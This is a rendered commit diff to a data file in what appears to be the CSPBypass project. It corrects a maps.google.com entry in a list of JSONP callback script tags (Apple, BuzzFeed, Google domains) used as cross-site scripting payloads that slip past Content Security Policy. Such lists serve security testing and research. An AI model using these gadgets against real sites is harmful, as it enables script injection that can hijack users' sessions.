

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out.

Commit message:
Correction maps.google.com

```diff
--- a/data.tsv
+++ b/data.tsv
@@ -51,3 +51,3 @@ itunes.apple.com	<script src="https://itunes.apple.com/se/rss/toppodcasts/json?c
 mango.buzzfeed.com	<script src="https://mango.buzzfeed.com/polls/service/editorial/post?poll_id=121996521&result_id=1&callback=alert(1)%2f%2f"></script>	
-maps.google.com	<script src="https://maps.google.com/maps/api/js?sensor=false&callback=alert"></script>	renniepak
+maps.google.com	<script src="https://maps.google.com/maps/api/js?sensor=false&callback=alert(1)"></script>	renniepak
 maps.googleapis.com	<script src="https://maps.googleapis.com/maps/api/js?callback=alert(1337)"></script>	
```
